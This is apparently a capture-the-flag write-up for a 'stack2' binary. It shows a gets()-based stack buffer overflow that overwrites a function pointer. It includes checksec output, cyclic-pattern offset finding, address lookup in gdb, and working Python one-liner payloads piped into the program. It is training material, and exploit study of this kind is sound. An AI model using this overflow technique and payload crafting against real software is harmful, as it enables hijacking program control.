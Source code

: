 # stack2

## inital poke:

``` bash
$ cd /problems/stack2r-64_7_6f3f38bb74a66565cc9342709dadda5e/
$ pwn checksec ./stack2-64 
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

- This is in little endian,
- has PIE enabled

## Code analysis

> [!NOTE]
> Full code is in ./stack2.c

``` C
void recalibration() {
    // need to get here to print the flag
}

int main(int argc, char **argv) {
    volatile int (*fp)(); 
    char buffer[{{buffsize}}]; // <-- the buffer we need to exploit and overflow 

    fp = 0; // <-- function pointer called below.

    gets(buffer); // <-- vulnerable function

    if (fp) { 
        printf("Calling function pointer, jumping to %p\n", fp);
        fp();
    }
}
```

## Figuring out offset

> [!NOTE]
> Aestrix are here for visualization purposes, they are not part of either input or output.

- injecting cyclic 100: `**aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaan**aaa*oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa*`
  - buffer is: `**aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaan**`
  - fp is: `*oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa*`
- len of cyclic string minus fp is 56; offset is 56

## Getting Recalibration

- we need to know the address of recalibration to inject it into fp

```bash
$ objdump -d /problems/stack2r-64_7_6f3f38bb74a66565cc9342709dadda5e/stack2-64 | grep recalibration

00000000000007aa <recalibration>:
```

- Now, we know the address, and the offset.
- Trying to modify the script with that did not work. Instead, we need to get the address within gdb by doing `p recalibrate` which yields `0x5555555547aa`.
- Plugging this into our script, we get:

``` python
exploit_str = b"A" * offset + p64(0x5555555547aa)
```


## It works! Now what?

- we need to run the file directly, and manually input the exploit string.
- To get the converted string, enter the python3 enviornment and run the code for our exploit stirng crafting. we will get
`b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xaaGUUUU\x00\x00'`

### Try #1

- converting the string directly into the 
``` bash
$ python3 -u -c 'print(b"A" * 56 + b"\xaa\x47\x55\x55\x55\x55\x00\x00")' | ./stack2-64 
Calling function pointer, jumping to 0x55476161785c4141
Segmentation fault (core dumped)
```

- doing this, we get issues with terminal input inputting unwanted ascii

### Try #2

```bash
python3 -u -c 'import sys; sys.stdout.buffer.write(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xaaGUUUU\x00\x00")' | ./stack2-64
```
this works!!!